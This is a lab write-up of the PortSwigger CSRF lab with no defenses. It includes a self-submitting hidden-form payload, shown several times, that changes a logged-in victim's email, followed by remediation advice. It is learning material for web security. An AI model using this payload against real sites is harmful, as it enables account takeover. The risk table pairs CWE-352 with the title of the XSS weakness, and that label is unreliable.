




# LAB 01 -  CSRF vulnerability with no defenses

## Lab Information

- **Category:** Cross-Site Request Forgery (CSRF)
- **Type:** NO defenses
- **Difficulty:** Apprentice
- **Status:** ✅ Solved
- **Date:** 2026-9-2

---


---

# Table of Contents

- Executive Summary
- Lab Information
- Objective
- Vulnerability Overview
- Attack Prerequisites
- Environment & Scope
- Methodology
- Discovery Process
- Technical Analysis
- Payload Analysis
- Exploitation Flow
- Evidence
- Impact
- Root Cause
- Risk Assessment
- Remediation
- Lessons Learned
- References
- Screenshots

---

# Executive Summary

A CSRF vulnerability was discovered that lacked any defensive measures such as CSRF tokens or random values ​​to protect the request allowing us to craft a form that modifies the email address and send it to the victim via an exploit server.

---

# Objective

The objective of this lab is to exploit a Cross-Site Request Forgery (CSRF) vulnerability in the absence of any defensive mechanisms by crafting a form that modifies the email address and submits the request to the victim.

---

# Vulnerability Overview

A Cross-Site Request Forgery (CSRF) vulnerability occurs when an attacker tricks the browser of a logged-in victim into sending a request to another website, causing that site to execute the request using the victim's privileges.

---


# Attack Requirements

1- The victim is logged into the target site.
2- The browser automatically sends authentication credentials, such as session cookies.
3- The attacker knows or can guess the target URL and the required transaction parameters.
4- The sensitive action can be triggered via various elements, such as a form, an image, an embedded frame, or a link.
5- The valid CSRF request does not require a secret or unpredictable value, such as a token.
6- The application does not properly verify the source of the request.

---

# Environment & Scope

| Item              | Value |
|-------------------|-------|
| Target            | PortSwigger Web Security Academy lab |
| HTTP Method       | POST |
| Injection Context | HTML Context |
| Client            | Web Browser |

---

# Methodology

1. Open the vulnerable lab.
2. Enter a valid email address to update it.
3. Inspect the HTTP request and response using Burp Suite.
4. Check the request to see if it contains protection values.
5. Go to the exploit page.
6. Creating the email change form that constitutes the exploit.
7. Saving the form.
8. Send the form to the victim.

---

# Discovery Process

### Step 1 — Testing the Update email

```email
example@gmail.com
```

The email address is updated via the `email` parameter, and the browser uses session data to identify the user without any protection.


### Step 2 — Testing Email Change from Within Burp Suite

```email
hacker@gmail.com
```
We observe that the response contains a "302 Found" status and no error message appears, indicating the absence of any protection mechanism.

### Step 3 — Go to the exploit page and enter the code.

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacker@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```
The form generates a POST request that updates the email address to the value we specified in the code, and then JavaScript is used to submit the form automatically.

---

# Payload Analysis

## Payload Used

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacker@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```

## Why This Payload Works

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">

```
It creates a form that sends a POST request to the entered page.


```html
 <input type="hidden" name="email" value="hacker@gmail.com">
```
You enter the email address value you want to change, without it being visible to the victim.

```html
<script>
        document.forms[0].submit();
</script>
```
It causes the browser to submit the form automatically.

---

# Exploitation Flow

```text
example@gmail.com
│
├── Email Update Experience
│
▼
Burp Suite
│
├── Capturing the request using Burp Suite
│
▼
Exploit server
│
├── Go to the exploit page
│
▼
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacker@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
│
▼
Sending to the victim
  
```

---

# Impact

Risks at the ordinary user level:

- Account theft: Changing the user's email address or password.
- Financial loss: Making unauthorized financial transfers or online purchases.
- Data leakage and modification: Altering profile data or deleting important information.
- Privacy violation: Publishing posts or sending malicious messages to friends on the victim's behalf.
  
 Risks at the System Administrator and Corporate Levels:

- Full site control: If the victim is an administrator, the attacker can create new admin accounts or modify site settings entirely to cripple
  operations.   
-  Data destruction: Deleting databases or altering the site's source code, provided the administrator holds extensive privileges.
-  Reputational damage: Loss of customer trust and a decline in public relations resulting from data breaches and the exposure of information.

---

# Root Cause

It stems from the fundamental design of how web browsers handle cookies and the HTTP protocol 
a concept known as "implicit and automatic browser authentication".

---

# Risk Assessment

| Item | Value |
|------|-------|
| Severity |  Context-dependent |
| CVSS Score | Not calculated |
| CWE | CWE-352: Improper Neutralization of Input During Web Page Generation |
| OWASP Category | Cross-Site Request Forgery (CSRF) |
| Exploitability | Demonstrated in lab |
| Business Impact | Account theft , Financial loss , Data leakage and modification , Privacy violation , Full site control|

---

# Remediation

- **Using Anti-CSRF Tokens**
  - Generate a random, unique, and cryptographically secure token for each user session or request.
  - Include this token in operations that alter data state (such as POST, PUT, and DELETE requests).
  - The server verifies that the token received from the browser matches the stored token before executing the request.

- **Enabling the SameSite attribute for cookies**
  - Set the cookie attribute to `SameSite=Lax` as a minimum (this prevents cookies from being sent in cross-site requests while allowing standard      navigation links).
  - Set it to `SameSite=Strict` for highly sensitive actions (this completely prevents cookies from being sent if the request originates from an       external site).

- **Request for re-authentication for sensitive actions**
  - Requiring the user to enter their current password, a two-factor authentication (2FA/OTP) code, or solve a CAPTCHA before completing critical      actions (such as changing their email address, transferring funds, or deleting their account).

- **Strict adherence to REST standards (Strict HTTP Methods)**
  - Ensure that GET requests are used solely for viewing and reading data, and never alter the system state (changing a password via a GET link is     a security disaster).

- **Validating Custom Request Headers**
  - When using technologies like AJAX or Fetch (in SPA applications), add a custom header (such as `X-Requested-With`).
  - Browsers prevent external sites from automatically sending custom headers due to the CORS policy.
 
  - **Checking Origin and Referer Headers**
  - Verifying the Origin or Referer header on the server side as an additional validation step to ensure that the request actually originated from     your site rather than a malicious one.
    
---

# Lessons Learned

- Cookies are sent automatically and blindly.
- Predictability and ease of exploitation.
- Risks associated with state-changing HTTP requests.
- Simulating the attack via independent interfaces.
- Authentication is not equivalent to intent verification.
  
---

# References

- OWASP
- PortSwigger Web Security Academy
- MITRE CWE
- CVSS Specification

---

# Screenshots

## Test



...

## Burp Request



...

## Payload



...


## Successful 



---

# Conclusion

This report demonstrates the successful exploitation of a Cross-Site Request Forgery (CSRF) vulnerability a high-severity flaw in a laboratory setting.
A realistic attack simulation reveals that the current system blindly and retroactively trusts the user's identity based solely on the presence of session cookies, without verifying the actual source of the request's intent.
This security vulnerability enables attackers to execute unauthorized actions on behalf of users such as modifying data or changing permissions simply by tricking them into visiting a malicious link.
